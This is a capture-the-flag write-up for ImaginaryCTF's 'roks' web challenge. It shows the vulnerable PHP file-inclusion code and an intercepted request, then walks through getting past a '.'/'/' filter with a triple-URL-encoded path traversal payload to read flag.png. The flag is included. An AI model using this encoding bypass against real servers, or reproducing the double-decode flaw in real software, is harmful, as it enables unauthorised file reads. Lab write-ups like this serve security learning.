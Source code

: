 **Name: Sen0rC4**

**Challenge Name: roks**

**Category: Web**

**Points: 100**

## Challenge:

My rock enthusiast friend made a website to show off some of his pictures. Could you do something with it?
Attachments

[roks.zip](files/roks.zip) 

## Approach:

When going to the site you are greeted by a button that picks a random picture of a rock.

If you intercept the request with burp, we see it uses *file* inclusion. So I am thinking path traversal.

```GET /file.php?file=image4 HTTP/1.1
Host: roks.chal.imaginaryctf.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://roks.chal.imaginaryctf.org/
Cookie: _ga_0LKSSBL38W=GS1.1.1690084714.5.1.1690084784.0.0.0; _ga=GA1.1.865862315.1690061016; _ga_BHMLHVLGF2=GS1.1.1690079570.3.0.1690079574.0.0.0
```

However, when we try to path traverse we recieve the ==stop hacking you hackers== image.

`/file.php?file=../../../../../../flag.png == stop hacking you hackers`

Lets take a look at the provided source code:


```<?php
  $filename = urldecode($_GET["file"]);
  if (str_contains($filename, "/") or str_contains($filename, ".")) {
    $contentType = mime_content_type("stopHacking.png");
    header("Content-type: $contentType");
    readfile("stopHacking.png");
  } else {
    $filePath = "images/" . urldecode($filename);
    $contentType = mime_content_type($filePath);
    header("Content-type: $contentType");
    readfile($filePath);
  }
?>
```

Website dosent allow "." or "/"

looks like it urldecodes once to check for . and /

it then decodes again to grab the rok file name

So we should url encode our request url twice to make sure it dosent see our "." or "/".

CyberChef will encode "." if you check the "encode all special characters

It also allows you to string together multiple encodes.

`%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fflag%252Epng`


We still get stop hacking image

I did some more enumeration and went to robots.txt and we see the site is made with apache.... which url decodes once before the site sees the request

If we url encode 3 times we should be able to path traverse

request sent: `http://roks.chal.imaginaryctf.org/file.php?file=%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252F%25252E%25252E%25252Fflag%25252Epng`

flag: `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`